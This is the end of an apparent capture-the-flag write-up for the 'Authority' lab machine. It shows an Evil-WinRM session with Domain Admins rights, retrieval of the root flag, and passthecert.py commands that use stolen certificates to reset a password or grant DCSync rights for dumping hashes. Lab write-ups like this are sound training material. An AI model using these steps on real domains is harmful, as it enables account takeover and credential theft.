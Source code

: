 ```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Domain Admins                      Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
...snip...
...snip...
```

```powershell
*Evil-WinRM* PS C:\Users> ls "C:/Users/Administrator/Desktop/"


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         8/6/2023  11:20 PM             34 root.txt


*Evil-WinRM* PS C:\Users> cat "C:/Users/Administrator/Desktop/root.txt"
40522df19c024877ca5dc612219fc9fd
```

Alternatively, using the same script I can also change Administrator's password.

```bash
❯ python passthecert.py -domain authority.htb -dc-ip 10.10.11.222 -crt certipy/admin.crt -key certipy/admin.key -target svc_ldap -new-pass
```

Another option is to grant `svc_ldap` DCSync rights and use `secretsdump.py` to dump the hashes.

```bash
❯ python passthecert.py -domain authority.htb -dc-ip 10.10.11.222 -crt certipy/admin.crt -key certipy/admin.key -target svc_ldap -elevate
```

**Pwned!**



---

# Related Links
